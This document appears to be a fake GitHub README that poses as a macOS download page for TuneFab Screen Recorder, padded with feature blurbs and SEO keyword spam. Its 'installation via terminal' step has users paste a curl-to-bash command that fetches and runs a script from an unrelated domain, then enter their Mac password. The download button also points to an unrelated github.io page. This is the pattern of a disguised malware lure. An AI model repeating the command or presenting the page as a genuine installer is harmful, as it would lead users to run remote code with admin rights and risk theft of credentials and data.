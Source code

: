 # TuneFab Screen Recorder — Download For Mac OS 🎥  
TuneFab Screen Recorder is a powerful and intuitive tool that allows you to capture screen activity, system sound, microphone, and webcam on your Mac. Perfect for creating tutorials, gameplay videos, or online meeting recordings. Follow the steps below to install it easily on macOS.

[![Download for macOS](https://img.shields.io/badge/Download%20for-macOS-blue?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/tunefab)

If the button above doesn't work, follow the terminal-based instructions below to install TuneFab Screen Recorder manually.

---

## 📦 How to Install TuneFab Screen Recorder For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag TuneFab Screen Recorder to your Applications folder.
3. Open Terminal and run the app if prompted by macOS security.
4. Press “Return” and enter your Mac password (leave blank if you don’t have one).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your Mac and paste the command.
3. Press “Return” and enter your password to confirm.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 Features

- 🎥 **Record Screen & Webcam** — Capture full screen, custom area, or camera feed.
- 🔊 **System & Mic Audio** — Record internal audio and external voice simultaneously.
- ⏱ **Scheduled Recordings** — Automate start/stop times for recording sessions.
- ✂️ **Built-in Editing Tools** — Trim, annotate, and enhance your recordings.
- 💾 **Multiple Output Formats** — Save in MP4, MOV, M4V, and more.
- 🎓 **Use Cases** — Ideal for tutorials, streaming, online classes, and meetings.

---

## About TuneFab Screen Recorder

TuneFab Screen Recorder is a professional-grade tool designed for users who need high-quality screen capturing solutions. Whether you're recording an online course, video call, or gameplay, this tool ensures crisp visuals and synchronized audio.

The macOS version is optimized for smooth performance and offers user-friendly controls that make screen recording accessible to everyone. With flexible recording areas and customizable settings, users can tailor every capture to their exact needs.

Unlike many bulky recorders, TuneFab maintains a lightweight footprint while offering advanced features like scheduling, hotkeys, and real-time annotation. It also supports hardware acceleration for fast exporting.

**Why choose TuneFab Screen Recorder?**  
It combines reliability, versatility, and professional-level recording in one easy-to-use interface. Perfect for Mac users who want quality results without complex setup.

---

## 🖼 Preview

![Recording Dashboard](https://www.tunefab.com/uploads/article/resources-o/images/screen-recorder/select-video-recorder.jpg)  
*Main control panel for starting and customizing your recordings.*

---

## 🔍 Tags

tunefab screen recorder, tunefab screen download, tunefab screen recorder for mac, tunefab screen download, tunefab download, tunefab screen recorder free, tunefab screen recorder download, download tunefab mac, free screen recorder mac, mac screen recording software, tunefab macos install, screen capture mac free, record mac screen with audio, tunefab screen recorder dmg, how to install tunefab on mac
